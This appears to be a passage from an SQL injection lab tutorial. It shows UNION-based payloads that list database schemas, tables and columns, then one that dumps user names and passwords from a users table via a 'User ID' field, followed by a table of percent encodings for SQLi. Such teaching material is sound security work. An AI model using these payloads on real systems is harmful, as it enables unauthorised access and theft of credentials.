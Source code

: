 ### Determine schema

```bash-notab-nocopy-nocolor
' UNION SELECT table_schema, table_name FROM information_schema.tables#
```

### Determine tables

```bash-notab-nocopy-nocolor
' UNION SELECT table_name, column_name FROM information_schema.columns#
```

### Dump Data

With knowledge of the available columns in a table, you can now attempt to retrieve the data from those columns. So, you decide to pull user names and passwords from the _users_ table. Type the following command into the User ID: field

`' UNION SELECT user, password FROM users#

### Reference table of commonly used percent encodings related to SQLi:

|Character|Encoding|
|---|---|
|`':'`|`%3A`|
|`'/'`|`%2F`|
|`'?'`|`%3F`|
|`'#'`|`%23`|
|`'['`|`%5B`|
|`']'`|`%5D`|
|`'@'`|`%40`|
|`'!'`|`%21`|
|`'$'`|`%24`|
|`'&'`|`%26`|
|`"'"`|`%27`|
|`'('`|`%28`|
|`')'`|`%29`|
|`'*'`|`%2A`|
|`'+'`|`%2B`|
|`','`|`%2C`|
|`';'`|`%3B`|
|`'='`|`%3D`|
|`'%'`|`%25`|
|`' '`|`%20` or `+`|
